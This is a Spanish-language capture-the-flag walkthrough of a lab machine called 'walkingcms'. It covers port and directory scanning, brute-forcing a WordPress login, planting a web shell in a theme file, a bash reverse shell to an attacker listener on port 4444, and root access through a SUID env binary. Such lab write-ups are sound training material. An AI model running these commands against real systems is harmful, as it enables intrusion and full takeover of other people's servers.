 # Máquina walkingcms

---

Dificultad -> Fácil

---

Empezamos haciendo un nmap para ver puertos y servicios disponibles

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

Vemos que solo está el puerto 80 abierto así que accedo desde la web

![](assets/2025-10-28-13-10-15-image.png)

La web es una pagina por defecto de apache sin nada interesante en el codigo fuente asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/server-status        (Status: 403) [Size: 275]
```

Veo que encuentra un wordpress asi que uso wpscan para ver posibles usuarios, temas y plugins

```shell
wpscan -e p,vt,cb,u --url 172.17.0.2/wordpress
```

No encuentra ningun tema o plugin vulnerable pero si que encuentra el usuario mario

![](assets/2025-10-28-13-15-49-image.png)

Teniendo un usuario, pruebo ha hacerle un bruteforce con wpscan

```shell
wpscan -U mario -P /usr/share/wordlists/rockyou.txt --url 172.17.0.2/wordpress
```

Y acabamos consiguiendo sus credenciales mario:love

![](assets/2025-10-28-13-17-39-image.png)

Con estas credenciales puedo iniciar sesión en /wordpress/wp-admin.php

![](assets/2025-10-28-13-19-01-image.png)

Una vez dentro del panel de administración de wordpress, podemos injectar una ejecution remota de comandos (RCE) a partir de un plugin con una revshell o editar un tema, en este caso, voy a editar el tema Twenty Twenty-Two.

Para ello, me dirijo a Apariencia > Theme Code Editor en el panel de la izquierda 

![](assets/2025-10-28-13-25-30-image.png)

Y en el panel de la derecha selecciono index.php, aquí le introduzco la P0wny Shell de [RevShells](https://www.revshells.com/) y le doy a Update File.

Ahora si me dirijo a la ruta donde podemos encontrar los temas por defecto, dentro del tema Twenty Twenty-Two nos sale la siguiente consola.

```shell
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

![](assets/2025-10-28-13-30-10-image.png)

Desde aquí nos mandamos una revshell a nuestra maquina mientras escuchamos en el puerto 4444

```shell
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

```shell
nc -lvnp 4444
```

Con lo que ganamos acceso a la máquina

![](assets/2025-10-28-13-35-37-image.png)

"Sudo -l" no funciona asi que purebo a buscar binarios con permisos SUID

```shell
find / -perm -4000 2>/dev/null
```

![](assets/2025-10-28-13-38-14-image.png)

Veo que esta /usr/bin/env asi que me dirijo a [GTFOBins]() y veo que puedo conseguir directamente una consola como root.

![](assets/2025-10-28-13-42-09-image.png)

Lo ejecuto y finalmente acabamos siendo root en esta máquina.
